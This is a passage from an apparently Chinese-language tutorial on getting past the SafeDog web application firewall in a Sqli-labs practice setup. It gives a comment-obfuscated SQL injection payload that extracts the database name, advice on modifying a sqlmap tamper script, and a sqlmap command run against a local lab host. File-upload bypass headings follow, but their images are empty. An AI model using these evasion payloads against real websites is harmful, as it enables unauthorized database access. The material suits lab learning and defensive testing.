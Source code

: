 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  

### **第六种：**

贴图太累了，放弃

```
`#数据库``?id=\Nunion/*!14444select*/1,database(%23%0a),3`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

###   

### **3\. tamper编写**  

可以对已经存在的tamper加上上面的payload进行魔改，例如：在tamper versionedmorekeywords.py里面进行替换：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

替换完成后使用该tamper就可以过狗了：

```
sqlmap -u "http://192.168.198.129:86/Less-2/?id=1" --tamper=safedog.py --ramdom-agent --delay=0.5 
```

* * *

  

**文件上传**

环境同上。

**①截断  
**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**②去掉引号**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**③引号**  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

引号2

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

引号3
